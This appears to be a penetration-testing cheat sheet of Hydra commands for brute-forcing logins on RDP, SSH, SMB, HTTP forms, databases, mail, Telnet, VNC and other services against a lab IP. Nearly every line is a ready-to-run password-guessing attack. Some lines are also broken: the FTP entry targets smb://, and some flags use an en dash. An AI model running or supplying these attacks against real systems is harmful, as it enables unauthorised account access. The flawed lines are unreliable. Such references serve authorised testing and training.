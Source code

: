 # Hydra

### GUI

```
xhydra
```

### RDP

```
hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V
```

### SSH

```
hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V
```

### SMB

```
hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V
```

### FTP

```
hydra -l root -P passwords.txt -f smb://10.0.2.5 -V
```

### HTTP Basic Auth

```
hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V
```

### HTTP POST

```
# HTTP Post
hydra -L users.txt -P password.txt 10.0.2.5 http-post-form
"/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login
name or password is incorrect" -V
```

### IMAP

```
# IMAP
hydra -l root -P passwords.txt -f imap://10.0.2.5 -V
```

### MySQL

```
# MySQL
hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V
```

### POP

```
# POP
hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V
```

### Redis

```
# Redis
hydra –P password.txt redis://10.0.2.5 -V
```

### Other Examples

<pre><code>Rexec
hydra -l root -P password.txt rexec://10.0.2.5 -V

Rlogin
hydra -l root -P password.txt rlogin://10.0.2.5 -V

RSH
hydra -L username.txt rsh://10.0.2.5 -V

RSP
hydra -l root -P passwords.txt &#x3C;IP> rtsp

SMTP
hydra -l &#x3C;username> -P /path/to/passwords.txt &#x3C;IP> smtp -V
hydra -l &#x3C;username> -P /path/to/passwords.txt -s 587 &#x3C;IP> -S -v -V
#Port 587 for SMTP with SSL

Telnet
hydra -l root -P passwords.txt [-t 32] &#x3C;IP> telnet
<strong>
</strong><strong>VNC
</strong>hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s &#x3C;PORT>
&#x3C;IP> vnc
</code></pre>
